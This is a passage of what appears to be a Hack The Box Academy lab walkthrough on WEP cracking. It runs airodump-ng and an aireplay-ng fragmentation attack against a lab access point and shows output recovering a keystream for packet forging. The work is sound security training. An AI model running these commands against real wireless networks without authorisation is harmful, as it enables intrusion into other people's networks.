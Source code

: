 Code: shell

```shell
sudo airodump-ng wlan0mon -c 1 -w Student
```

```
wifi@WiFiIntro:~$ sudo airodump-ng wlan0mon -c 1 -w Student

 CH  1 ][ Elapsed: 1 min ][ 2024-11-26 07:13 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 D8:D6:3D:EB:29:D5  -47 100      602        0    0   1   11   WEP  WEP         HackTheBox-Wireless                            

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 D8:D6:3D:EB:29:D5  32:74:0B:88:CC:93  -29    0 - 1      0        3         HackTheBox-Wireless 
```

Students will open a new terminal and use `aireplay-ng` to perform a fragmentation attack targeting the MAC addresses found in the `BSSID` and `STATION` columns in the `airodump-ng` output, respectively. Once a packet is found, students will use that packet. Note the MAC addresses may change upon target spawn or reset:

Code: shell

```shell
sudo aireplay-ng -5 -b D8:D6:3D:EB:29:D5 -h 32:74:0B:88:CC:93 wlan0mon
y
```

```
wifi@WiFiIntro:~$ sudo aireplay-ng -5 -b D8:D6:3D:EB:29:D5 -h 32:74:0B:88:CC:93 wlan0mon

The interface MAC (02:00:00:00:01:00) doesn't match the specified MAC (-h).
	ifconfig wlan0mon hw ether 32:74:0B:88:CC:93
07:17:13  Waiting for beacon frame (BSSID: D8:D6:3D:EB:29:D5) on channel 1
07:17:13  Waiting for a data packet...
Read 211 packets...

        Size: 40, FromDS: 0, ToDS: 1 (WEP)

              BSSID  =  D8:D6:3D:EB:29:D5
          Dest. MAC  =  D8:D6:3D:EB:29:D5
         Source MAC  =  32:74:0B:88:CC:93

        0x0000:  0841 0201 d8d6 3deb 29d5 3274 0b88 cc93  .A....=.).2t....
        0x0010:  d8d6 3deb 29d5 5011 f2d1 1500 d9e5 2fdb  ..=.).P......./.
        0x0020:  2975 adbd ab82 a20b                      )u......

Use this packet ? y

Saving chosen packet in replay_src-1126-071735.cap
07:18:17  Data packet found!
07:18:17  Sending fragmented packet
07:18:19  No answer, repeating...
07:18:19  Trying a LLC NULL packet
07:18:19  Sending fragmented packet
07:18:19  Got RELAYED packet!!
07:18:19  Trying to get 384 bytes of a keystream
07:18:19  Got RELAYED packet!!
07:18:19  Trying to get 1500 bytes of a keystream
07:18:19  Got RELAYED packet!!
Saving keystream in fragment-1126-071819.xor
Now you can build a packet with packetforge-ng out of that 1500 bytes keystream
```